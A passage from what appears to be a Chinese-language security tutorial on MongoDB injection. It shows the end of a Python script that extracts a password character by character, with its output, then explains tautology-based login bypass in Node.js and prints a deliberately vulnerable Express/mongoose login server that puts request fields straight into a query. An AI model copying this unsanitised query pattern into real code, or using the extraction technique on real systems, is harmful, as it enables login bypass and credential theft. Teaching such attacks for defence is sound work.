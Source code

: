 ```python
                password += c


# 输出如下: 
# [+] 1
# [+] 12
# [+] 123
# [+] 1234
# [+] 12345
# [+] 123456
```

## Nodejs 中的 MongoDB 注入

在 Nodejs 中也存在 MongoDB 注入的问题，其中主要是重言式注入，通过构造永真式构造万能密码实现登录绕过。下面我们使用 Nodejs 中的 mongoose 模块操作 MongoDB 进行演示。

- server.js

```javascript
var express = require('express');
var mongoose = require('mongoose');
var jade = require('jade');
var bodyParser = require('body-parser');

mongoose.connect('mongodb://localhost/test', { useNewUrlParser: true });
var UserSchema = new mongoose.Schema({
    name: String,
    username: String,
    password: String
});
var User = mongoose.model('users', UserSchema);
var app = express();

app.set('views', __dirname);
app.set('view engine', 'jade');

app.get('/', function(req, res) {
    res.render ("index.jade",{
        message: 'Please Login'
    });
});

app.use(bodyParser.json());

app.post('/', function(req, res) {
    console.log(req.body)
    User.findOne({username: req.body.username, password: req.body.password}, function (err, user) {
        console.log(user)
        if (err) {
            return res.render('index.jade', {message: err.message});
        }
        if (!user) {
            return res.render('index.jade', {message: 'Login Failed'});
        }

        return res.render('index.jade', {message: 'Welcome back ' + user.name + '!'});
    });
});

var server = app.listen(8000, '0.0.0.0', function () {

    var host = server.address().address
    var port = server.address().port
```